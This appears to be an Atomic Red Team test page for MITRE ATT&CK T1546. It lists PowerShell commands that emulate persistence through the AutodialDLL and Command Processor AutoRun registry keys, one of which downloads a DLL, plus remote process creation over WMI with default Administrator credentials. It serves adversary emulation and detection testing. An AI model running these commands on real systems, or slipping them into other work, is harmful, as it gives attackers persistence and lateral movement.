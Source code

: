 # T1546 - Event Triggered Execution

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546)

<blockquote>Adversaries may establish persistence and/or elevate privileges using system mechanisms that trigger execution based on specific events. Various operating systems have means to monitor and subscribe to events such as logons or other user activity such as running specific applications/binaries. Cloud environments may also support various functions and services that monitor and can be invoked in response to specific cloud events.(Citation: Backdooring an AWS account)(Citation: Varonis Power Automate Data Exfiltration)(Citation: Microsoft DART Case Report 001)

Adversaries may abuse these mechanisms as a means of maintaining persistent access to a victim via repeatedly executing malicious code. After gaining access to a victim system, adversaries may create/modify event triggers to point to malicious content that will be executed whenever the event trigger is invoked.(Citation: FireEye WMI 2015)(Citation: Malware Persistence on OS X)(Citation: amnesia malware)

Since the execution can be proxied by an account with higher permissions, such as SYSTEM or service accounts, an adversary may be able to abuse these triggered execution mechanisms to escalate their privileges. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence with Custom AutodialDLL](#atomic-test-1---persistence-with-custom-autodialdll)

- [Atomic Test #2 - HKLM - Persistence using CommandProcessor AutoRun key (With Elevation)](#atomic-test-2---hklm---persistence-using-commandprocessor-autorun-key-with-elevation)

- [Atomic Test #3 - HKCU - Persistence using CommandProcessor AutoRun key (Without Elevation)](#atomic-test-3---hkcu---persistence-using-commandprocessor-autorun-key-without-elevation)

- [Atomic Test #4 - WMI Invoke-CimMethod Start Process](#atomic-test-4---wmi-invoke-cimmethod-start-process)

<br/>

## Atomic Test #1 - Persistence with Custom AutodialDLL

The DLL pointed to by the AutodialDLL registry key is loaded every time a process connects to the internet. Attackers can gain persistent code execution by setting this key to a DLL of their choice.

The sample dll provided, AltWinSock2DLL, will launch the notepad process. Starting and stopping a web browser such as MS Edge or Chrome should result in the dll executing.
[Blog](https://www.mdsec.co.uk/2022/10/autodialdlling-your-way/)

**Supported Platforms:** Windows

**auto_generated_guid:** aca9ae16-7425-4b6d-8c30-cad306fdbd5b

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll
```

#### Cleanup Commands:

```powershell
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\WinSock2\Parameters -Name AutodialDLL -Value  $env:windir\system32\rasadhlp.dll
```

#### Dependencies: Run with `powershell`!

##### Description: AltWinSock2DLL DLL must exist on disk at specified at PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll

##### Check Prereq Commands:

```powershell
if (Test-Path PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll) { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1546\bin\" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546/bin/AltWinSock2DLL.dll" -OutFile "PathToAtomicsFolder\T1546\bin\AltWinSock2DLL.dll"
```

<br/>
<br/>

## Atomic Test #2 - HKLM - Persistence using CommandProcessor AutoRun key (With Elevation)

An adversary may abuse the CommandProcessor AutoRun registry key to persist. Every time cmd.exe is executed, the command defined in the AutoRun key also gets executed.
[reference](https://devblogs.microsoft.com/oldnewthing/20071121-00/?p=24433)

**Supported Platforms:** Windows

**auto_generated_guid:** a574dafe-a903-4cce-9701-14040f4f3532

#### Inputs:

| Name    | Description        | Type   | Default Value |
| ------- | ------------------ | ------ | ------------- |
| command | Command to Execute | string | notepad.exe   |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty -Path "HKLM:\Software\Microsoft\Command Processor" -Name "AutoRun" -Value "#{command}" -PropertyType "String"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Command Processor" -Name "AutoRun" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - HKCU - Persistence using CommandProcessor AutoRun key (Without Elevation)

An adversary may abuse the CommandProcessor AutoRun registry key to persist. Every time cmd.exe is executed, the command defined in the AutoRun key also gets executed.
[reference](https://devblogs.microsoft.com/oldnewthing/20071121-00/?p=24433)

**Supported Platforms:** Windows

**auto_generated_guid:** 36b8dbf9-59b1-4e9b-a3bb-36e80563ef01

#### Inputs:

| Name    | Description        | Type   | Default Value |
| ------- | ------------------ | ------ | ------------- |
| command | Command to Execute | string | notepad.exe   |

#### Attack Commands: Run with `powershell`!

```powershell
$path = "HKCU:\Software\Microsoft\Command Processor"
if (!(Test-Path -path $path)){
  New-Item -ItemType Key -Path $path
}
New-ItemProperty -Path $path -Name "AutoRun" -Value "#{command}" -PropertyType "String"
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty -Path "HKCU:\Software\Microsoft\Command Processor" -Name "AutoRun" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - WMI Invoke-CimMethod Start Process

The following Atomic will create a New-CimSession on a remote endpoint and start a process usnig Invoke-CimMethod.
This is a novel way to perform lateral movement or to start a remote process.
This does require WinRM to be enabled. The account performing the run will also need to be elevated.
A successful execution will stdout that the process started. On the remote endpoint, wmiprvse.exe will spawn the given process.

**Supported Platforms:** Windows

**auto_generated_guid:** adae83d3-0df6-45e7-b2c3-575f91584577

#### Inputs:

| Name     | Description               | Type   | Default Value |
| -------- | ------------------------- | ------ | ------------- |
| dest     | destination computer name | string | localhost     |
| password | password for account      | string | P@ssword1     |
| username | account to use            | string | Administrator |
| process  | process to spawn          | string | calc.exe      |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
# Set the remote computer name and credentials
 $RemoteComputer = "#{dest}"
 $PWord = ConvertTo-SecureString -String "#{password}" -AsPlainText -Force
 $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{username}", $Pword

 # Create a CIM session
 $CimSession = New-CimSession -ComputerName $RemoteComputer -Credential $Credential

 # Define the process you want to start
 $ProcessToStart = "#{process}"

 # Invoke the Create method on the Win32_Process class to start the process
 $Result = Invoke-CimMethod -CimSession $CimSession -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $ProcessToStart}

 # Check the result
 if ($Result.ReturnValue -eq 0) {
     Write-Host "Process started successfully with Process ID: $($Result.ProcessId)"
 } else {
     Write-Host "Failed to start the process. Error code: $($Result.ReturnValue)"
 }

 # Clean up the CIM session
 Remove-CimSession -CimSession $CimSession
```

<br/>

